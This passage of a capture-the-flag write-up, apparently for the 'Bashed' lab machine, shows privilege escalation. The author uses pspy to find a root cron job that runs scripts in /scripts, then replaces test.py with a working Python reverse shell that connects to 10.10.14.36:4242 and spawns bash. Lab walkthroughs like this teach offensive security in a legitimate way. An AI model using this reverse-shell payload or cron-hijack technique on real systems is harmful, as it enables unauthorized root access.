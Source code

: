 ```
scriptmanager@bashed:/scripts$ ls -lah
total 3.0M
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Jun 15 23:12 .
drwxr-xr-x 23 root          root          4.0K Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager 3.0M Aug 22  2019 pspy64
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jun 15 23:12 test.txt
```

I need to make `pspy` executable by using `chmod +x` on it.

```
pspy64 chmod +x
```

```
scriptmanager@bashed:/scripts$ chmod +x pspy64 
scriptmanager@bashed:/scripts$ ls -lah pspy64 
-rwxr-xr-x 1 scriptmanager scriptmanager 3.0M Aug 22  2019 pspy64
```

We can see that we can execute the file now. Now all we need to do is run `./pspy64`. Since I am suspicious that this file is being ran as root, I am going to keep my eye on `UID=0` which specifies the root user since root has a `UID` of `0`. Within a few seconds, I instantly saw the following output from `pspy`:

```
2021/06/15 23:14:38 CMD: UID=0    PID=10     | 
2021/06/15 23:14:38 CMD: UID=0    PID=1      | /sbin/init noprompt 
2021/06/15 23:15:01 CMD: UID=0    PID=1226   | /usr/sbin/CRON -f 
2021/06/15 23:15:01 CMD: UID=0    PID=1228   | python test.py 
2021/06/15 23:15:01 CMD: UID=0    PID=1227   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
```

So there is a cronjob (scheduled task) to run `python test.py` as the root user. Now that we know this, let's go ahead and exploit this. Since we can change what is written in `test.py` and it is a `Python` script, let's just create a `Python reverse shell` into it like we did before except now we are doing it within the file. I go ahead and use `vi` to edit the file and stick. I got rid of any semicolons and unnecessary single quotes and made sure the commands were given separate lines so it will execute properly. The file looked like the following after I finished editing it:

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.36",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
--No lines in buffer--
```